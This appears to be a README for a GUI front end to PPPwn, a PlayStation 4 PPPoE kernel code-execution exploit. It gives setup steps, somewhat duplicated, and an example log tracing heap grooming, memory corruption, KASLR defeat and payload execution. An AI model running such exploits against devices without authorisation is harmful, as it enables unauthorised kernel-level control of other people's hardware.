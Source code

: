 # PPPwn - PlayStation 4 PPPoE RCE
PPPwn is a kernel remote code execution exploit for PlayStation 4 up to FW 11.00. This is a proof-of-concept exploit for [CVE-2006-4304](https://hackerone.com/reports/2177925) that was reported responsibly to PlayStation.

Supported versions are:
- FW 9.00
- FW 9.50
- FW 10.00
- FW 10.50
- FW 11.00
- more can be added (PRs are welcome)

The exploit only prints `PPPwned` on your PS4 as a proof-of-concept. In order to launch Mira or similar homebrew enablers, the `stage2.bin` payload needs to be adapted.

## Requirements
- A computer with an Ethernet port
  - USB adapter also works
- Ethernet cable
- Npcap
  - get it [here](https://npcap.com/dist/npcap-1.79.exe)


## Usage

- Download the latest release

- Run the exploit on windows:
```sh
python main.py
```

choose a stage2.bin (custom ones from e.g. @LightningMods work too!)
Note: the stage files are all located in pppwn/stage1 & pppwn/stage2

## screenshots
![image](https://github.com/n0201/PPPwnGUI/assets/87095139/c7692d58-5a62-48c9-b992-495bd979c7cb)


## Note
- If there's no new output (e.g. the pppwn.py script is stuck at "Waiting for PADI", the GUI will freeze until a new output will be send)

- ### DO NOT CLICK THE EXPLOIT BUTTON JUST YET

- Now, simultaneously press the 'X' button on your controller on `Test Internet Connection` and the exploit button in the UI

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. Kill the `main.py` script and run it again on your computer, and then click on `Test Internet Connection` on your PS4: always simultaneously. (Note: The command prompt of the UI also runs the `pppwn.py` script, so it is enough to just close that console)


If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4, or the other way around. 

On your PS4:

- Go to `Settings` and then `Network`
- Select `Set Up Internet connection` and choose `Use a LAN Cable`
- Choose `Custom` setup and choose `PPPoE` for `IP Address Settings`
- Enter anything for `PPPoE User ID` and `PPPoE Password`
- Choose `Automatic` for `DNS Settings` and `MTU Settings`
- Choose `Do Not Use` for `Proxy Server`

- Now, simultaneously press the 'X' button on your controller on `Test Internet Connection` and 'Enter' on your keyboard (on the computer you have your Python script ready to run).

ALWAYS wait for you console to show the message "Cannot connect to network: (NW-31274-7)" before trying this PPOE injection again.

If the exploit fails or the PS4 crashes, you can skip the internet setup and simply click on `Test Internet Connection`. Kill the `pppwn.py` script and run it again on your computer, and then click on `Test Internet Connection` on your PS4: always simultaneously.


If the exploit works, you should see an output similar to below, and you should see `Cannot connect to network.` followed by `PPPwned` printed on your PS4, or the other way around. 

### Example run

```sh
[+] PPPwn - PlayStation 4 PPPoE RCE by theflow
[+] args: interface=enp0s3 fw=1100 stage1=stage1/stage1.bin stage2=stage2/stage2.bin

[+] STAGE 0: Initialization
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 07:ba:be:34:d6:ab
[+] AC cookie length: 0x4e0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[*] Waiting for interface to be ready...
[+] Target IPv6: fe80::2d9:d1ff:febc:83e4
[+] Heap grooming...done

[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```
